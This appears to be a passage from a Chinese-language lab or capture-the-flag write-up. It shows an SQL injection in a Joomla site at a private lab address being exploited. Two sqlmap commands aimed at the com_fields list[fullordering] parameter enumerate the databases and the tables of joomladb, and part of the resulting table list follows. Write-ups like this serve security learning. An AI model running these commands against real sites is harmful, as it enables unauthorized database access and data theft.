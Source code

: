 此版本有 SQl 注入漏洞

_**_**No.3  
**_**_

_**漏洞利用**_

使用 sqlmap

```
sqlmap -u "http://192.168.188.158/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]# 爆表库
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoKNAD03KnN4d3P89ZqfhOVPfiaiaRtN3MGlaFKFFa0nEiaC2uFkTibEicpYg/640?wx_fmt=png)

```
sqlmap -u "http://192.168.188.158/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -D joomladb --tables # 爆表
```

```
Database: joomladb
[76 tables]
+---------------------+
| # __assets           |
| # __associations     |
| # __banner_clients   |
| # __banner_tracks    |
| # __banners          |
| # __bsms_admin       |
| # __bsms_books       |
| # __bsms_comments    |
| # __bsms_locations   |
| # __bsms_mediafiles  |
| # __bsms_message_typ |
| # __bsms_podcast     |
| # __bsms_series      |
| # __bsms_servers     |
| # __bsms_studies     |
| # __bsms_studytopics |
| # __bsms_teachers    |
| # __bsms_templatecod |
| # __bsms_templates   |
| # __bsms_timeset     |
| # __bsms_topics      |
| # __bsms_update      |
| # __categories       |
| # __contact_details  |
| # __content_frontpag |
| # __content_rating   |
| # __content_types    |
| # __content          |
| # __contentitem_tag_ |
| # __core_log_searche |
| # __extensions       |
| # __fields_categorie |
| # __fields_groups    |
| # __fields_values    |
| # __fields           |
| # __finder_filters   |
| # __finder_links_ter |
| # __finder_links     |
| # __finder_taxonomy_ |
| # __finder_taxonomy  |
| # __finder_terms_com |
| # __finder_terms     |
```